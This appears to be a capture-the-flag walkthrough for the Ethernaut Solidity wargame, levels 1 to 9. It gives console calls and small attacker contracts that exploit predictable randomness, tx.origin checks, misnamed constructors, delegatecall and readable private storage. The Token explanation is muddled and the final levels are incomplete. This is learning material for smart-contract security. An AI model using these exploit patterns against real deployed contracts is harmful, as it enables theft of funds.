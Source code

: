 # 1. Hello Ethernaut
The instructions ask to call the `info()` method
```
contract.info()
```
We follow the output and call:
```
contract.info1()
```
Then...
```
contract.info2()
```
To get `infoNum`, we call its public getter
```
contract.infoNum()
```
`infoNum()` returns `42` as a BigNumber, so we call `info42()`
```
contract.info42()
```
Following the output again
```
contract.theMethodName()
```
Then...
```
contract.method7123949()
```
To know what is the password, we inspect the contract's ABI
```
contract
```
We call the method `password()`
```
contract.password()
```
We finally pass the output to the `authenticate()` method
```
contract.authenticate("ethernaut0")
```

# 2. Fallback
First of all we need to send the contract an amount that is less than `0.001 ether` in order to make a contribution
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})
```
Afterwards, we send another non-zero amount to become an owner (received by the function `receive()`)
```
contract.sendTransaction({from: player, value: toWei(0.0000001)})
```
We can now withdraw all of the contract's balance using `withdraw()`
```
contract.withdraw()
```

# 3. Fallout
In older Solidity versions, the constructor used to defined with the contract's name.  
So, to claim ownership we call the constructor which is named by mistake `fal1out()` instead of `fallout()` 
```
contract.Fal1out()
```

# 4. Coin Flip
In order to guess the right side, we need to implement the same coin flip generation code then pass the result to the `guess()` function.  
The block time is long enough that the `block.number` doesn't change between function calls.
```Solidity
contract Hack {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function _guess() public view returns(bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    return side;
    
    }

    function attack(address _victim) external {
        bool guess = _guess();
        ICoinFlip(_victim).flip(guess);
    }

}
```


# 5. Telephone
In order to claim ownership, we need to call the `changeOwner()` method using an intermediate contract. This way, the `tx.origin` is going to be `player` and the `msg.sender` is going to be the address of the intermediate contract `Hack`.
```
contract Hack {

    function attack(address _victim) external {
        ITelephone(_victim).changeOwner(msg.sender);
    }

}
```

# 6. Token
To increase our balance we use the `transfer()` method.  
However, in order to get the maximum of tokens, we need to ensure that our balance is equal to the maximum value of `uint256`. 
In order to get this value, we substract the amount we already have to prevent an overflow.
```
tokenContract.transfer(msg.sender, type(uint).max - tokenContract.balanceOf(msg.sender)); 
```

# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```


 # 8. Force



 # 9. Vault
 ```
 web3.eth.getStorageAt(instance, "1")
 ```

